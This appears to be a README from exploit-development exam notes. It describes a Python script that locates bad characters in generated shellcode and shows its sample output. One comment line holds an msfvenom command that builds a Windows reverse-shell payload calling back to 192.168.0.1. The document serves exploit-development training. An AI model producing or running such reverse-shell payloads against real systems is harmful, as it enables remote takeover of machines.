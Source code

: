 # OSED_Notes

## badchars_find.py
A python script that finds badchars inside generated shellcodes by dividing the shellcode into blocks of \x70 bytes of length


```bash
# msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.1 lport=443 -f python EXITFUNC=thread -v buf

username@host:~$ python3 badchars_find.py
Badchar found: 0x3
Badchar: 0
==============================
Badchar found: 0x4
Badchar: 0
==============================
Badchar found: 0x5
Badchar: 0
==============================
Badchar found: 0x17
Badchar: 40
==============================
...
==============================
Badchar found: 0x55
Badchar: 128
==============================
Badchar found: 0x60
Badchar: 0
==============================
[!] Third block: 22 badchars! [!]
==============================
```
